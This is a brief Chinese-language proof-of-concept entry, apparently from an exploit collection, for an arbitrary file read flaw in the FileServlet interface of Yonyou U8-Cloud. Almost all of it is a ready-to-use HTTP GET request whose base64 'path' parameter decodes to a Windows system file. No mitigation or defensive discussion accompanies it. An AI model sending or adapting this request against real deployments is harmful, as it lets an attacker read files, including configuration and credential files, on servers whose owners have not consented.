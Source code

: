 ## 用友U8-Cloud接口FileServlet存在任意文件读取漏洞


## poc
```
GET /service/~hrpub/nc.bs.hr.tools.trans.FileServlet?path=QzovL3dpbmRvd3Mvd2luLmluaQ== HTTP/1.1
Host: url

```
